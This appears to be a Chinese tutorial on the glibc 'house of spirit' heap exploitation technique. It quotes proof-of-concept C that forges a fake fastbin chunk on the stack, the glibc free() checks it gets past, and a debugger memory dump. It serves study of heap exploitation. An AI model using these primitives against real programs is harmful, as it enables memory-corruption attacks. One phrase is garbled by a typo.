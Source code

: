使用malloc初始化heap空间。

```
fprintf(stderr, "Calling malloc() once so that it sets up its memory.n");
    malloc(1);
```

在栈中创建fake chunk（没错，就是在栈中）

```
fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.n");
    unsigned long long *a;
    // This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfil allocations (pointed to from fastbinsY)
    unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

    fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.n", sizeof(fake_chunks), &amp;fake_chunks[1], &amp;fake_chunks[9]);
```

初始化fake chunk，在构造fake chunk的时候需要绕过两个检查。

定义在_int_free函数中(malloc/malloc.c)
- chunk的大小要大于2*SIZE_SZ系哦啊雨system_mem
```
#if TRIM_FASTBINS
      /*
    If TRIM_FASTBINS set, don't place chunks
    bordering top into fastbins
      */
      &amp;&amp; (chunk_at_offset(p, size) != av-&gt;top)
#endif
      ) `{`

    if (__builtin_expect (chunk_at_offset (p, size)-&gt;size &lt;= 2 * SIZE_SZ, 0)
    || __builtin_expect (chunksize (chunk_at_offset (p, size))
                 &gt;= av-&gt;system_mem, 0)) 
    `}`
```
- free的内存大小不能大于fastbin的最大值（128）程序定义了fake_chunk的结构如下,
```
fake_chunks[1] = 0x40; // this is the size
    fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is &gt; 2*SIZE_SZ (&gt; 16 on x64) &amp;&amp; &lt; av-&gt;system_mem (&lt; 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.n");
        // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
    fake_chunks[9] = 0x1234; // nextsize
```

```
gef➤  x/20xg 0x00007fffffffddb0
0x7fffffffddb0:    0x0000000000000000    0x0000000000000040 (size)
0x7fffffffddc0:    0x0000000000000000    0x000000000000ff00 &lt;--fake chunk
0x7fffffffddd0:    0x0000000000000001    0x00000000004008ed
0x7fffffffdde0:    0x0000000000000000    0x0000000000000000
0x7fffffffddf0:    0x00000000004008a0    0x0000000000001234 (next size)
```
